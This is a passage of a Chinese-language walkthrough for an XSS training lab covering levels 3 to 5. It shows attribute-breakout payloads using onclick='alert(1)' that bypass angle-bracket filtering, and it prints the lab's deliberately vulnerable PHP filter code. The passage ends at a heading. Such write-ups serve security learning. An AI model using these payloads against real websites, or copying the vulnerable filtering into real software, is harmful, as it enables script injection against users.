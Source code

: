 原始input标签

```html
<input name=keyword  value='111111'>	
```

目的input标签(注意value属性的前半个单引号和后半个单引号的闭合)

```html
<input name=keyword  value='11111' onclick='alert(1)'>	
```

我们提交的XSS语句就成为：

```html
11111' onclick='alert(1)
```

因而可以绕过对于提交内容中的尖括号的过滤

提交后不会直接弹窗，需要手动点击输入框处，才能成功弹窗

![](https://img.yatjay.top/md/202203052059352.png)

### Level-4

#### 构造XSS语句

第4关和第3关类似，只是在闭合input标签里的引号时，第3关需要闭合的是前后单引号，第4关需要闭合的是前后双引号，因此XSS语句就变成了

```
11111" onclick="alert(1)
```

![](https://img.yatjay.top/md/202203052118380.png)

### Level-5

通过查看后端PHP代码发现，本关卡会过滤提交参数中的`<script`和 `on`字符，将其分别替换为`<scr_ipt` 和`o_n`，因此原来的onclick属性不能使用，更不能直接提交`<script>`脚本标签

```php
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level5.php method=GET>
<input name=keyword  value="'.$str3.'">
<input type=submit name=submit value=搜索 />
</form>
</center>';
?>
```

#### 超链接调用javascript代码
